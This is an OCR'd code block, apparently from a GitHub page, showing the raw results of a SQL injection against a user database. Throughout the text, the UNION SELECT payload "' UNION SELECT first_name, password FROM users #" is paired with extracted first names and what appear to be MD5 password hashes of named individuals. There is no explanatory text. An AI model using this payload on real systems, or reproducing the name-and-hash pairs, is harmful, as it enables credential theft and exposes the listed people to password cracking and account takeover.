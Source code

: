 ```
Surname: fd95e4963ee4c40457b940138e98a2e3

ID: ' UNION SELECT first_name, password FROM users #
First name: IBRIHEN
Surname: 1ad657bee9775c2e56cb187460bd4eb2

ID: ' UNION SELECT first_name, password FROM users #
First name: LENGAGNE
Surname: 51b33da9146d15ca2d1d8277cdb88d47

ID: ' UNION SELECT first_name, password FROM users #
First name: LOUAIL
Surname: 15cace913d6fabbc669761b29956e394

ID: ' UNION SELECT first_name, password FROM users #
First name: SI ZIANI
Surname: 6f01c5ba27a7c6e4b80e577851163ec0

ID: ' UNION SELECT first_name, password FROM users #
First name: TIGHLIT
Surname: 60037319c191f3309cededa7adf243c3

ID: ' UNION SELECT first_name, password FROM users #
First name: ZEBOUCHI
Surname: 2c0d9a6b72343c36a467c91d471316d5

ID: ' UNION SELECT first_name, password FROM users #
First name: ZIEGLER
Surname: 15cace913d6fabbc669761b29956e394

ID: ' UNION SELECT first_name, password FROM users #
First name: ABOUBACARI
Surname: d2fbaddcf91237982462e1a9a6488ab5

ID: ' UNION SELECT first_name, password FROM users #
First name: HAMDI
Surname: 60c8bd6a097594302cabf8a28fa702c5

ID: ' UNION SELECT first_name, password FROM users #
First name: JMAA
Surname: bf78fbb27954579c1bae64e7c43cce93

ID: ' UNION SELECT first_name, password FROM users #
First name: LECOMTE
Surname: f183b270e7f587956582dfddb842d7c4

ID: ' UNION SELECT first_name, password FROM users #
First name: LENEVEU
Surname: 039190bf7575cc303639e8beacf3130a

ID: ' UNION SELECT first_name, password FROM users #
First name: LEROY
Surname: 6db94f074138a64e94f2ce0a2da24ff4

ID: ' UNION SELECT first_name, password FROM users #
First name: LEVASSEUR
Surname: 7c0466302cce07f088bb193a9eab7ca8

ID: ' UNION SELECT first_name, password FROM users #
First name: M HAMDI
Surname: 35ad7420bb9d0c567cee749cec3cdd1c

ID: ' UNION SELECT first_name, password FROM users #
```